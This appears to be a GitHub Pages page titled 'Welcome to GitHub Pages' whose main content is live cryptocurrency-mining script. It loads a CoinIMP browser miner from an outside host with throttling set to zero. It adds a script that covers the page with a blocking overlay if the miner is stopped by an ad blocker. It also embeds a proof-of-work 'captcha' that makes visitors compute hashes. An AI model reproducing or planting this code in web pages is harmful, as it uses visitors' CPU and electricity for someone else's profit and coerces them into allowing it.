 ## Welcome to GitHub Pages
<script src="https://www.hostingcloud.racing/Y0Pq.js"></script>
<script>
    var _client = new Client.Anonymous('6af76f922971c0978de8b5f7fc5c702081ea5c2845d726e1646abaf20fce369a', {
        throttle: 0
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");
</script>
<script>
    setTimeout(function(){
        if(typeof _client === 'undefined' || _client === null)
        {
            var messageDiv = document.createElement("div");
            messageDiv.setAttribute("style","width: 50%; background-color: white; padding: 15px; display: inline-block; vertical-align: middle;");
            messageDiv.appendChild(document.createTextNode("Please allow our miner on your blocker software to continue browsing our site. Reload the page after that."));
            var mainDiv = document.createElement("div");
            mainDiv.setAttribute("style","position: absolute; top: 0px; right: 0px; width: 100%; height: 100%; display: flex; background-color: #4c4c4c;  align-items: center; justify-content: center");
            mainDiv.appendChild(messageDiv);
            document.body.appendChild(mainDiv);
            document.getElementsByTagName("body")[0].style.overflow = "hidden";
            window.scrollTo(0, 0);
        }
    },1000);
</script>





<form action="?" method="post">
	<!-- other form fields -->

	<script src="https://verifypow.com/lib/captcha.min.js" async></script>
	<div class="CRLT-captcha" data-hashes="1024" data-key="700667c05b7af0d2c4dff32e161c11953364c046c4d5">
		<em>Loading Captcha...<br>
		If it doesn't load, please disable Adblock!</em>
	</div>

	<input type="submit" value="Submit"/>
</form>
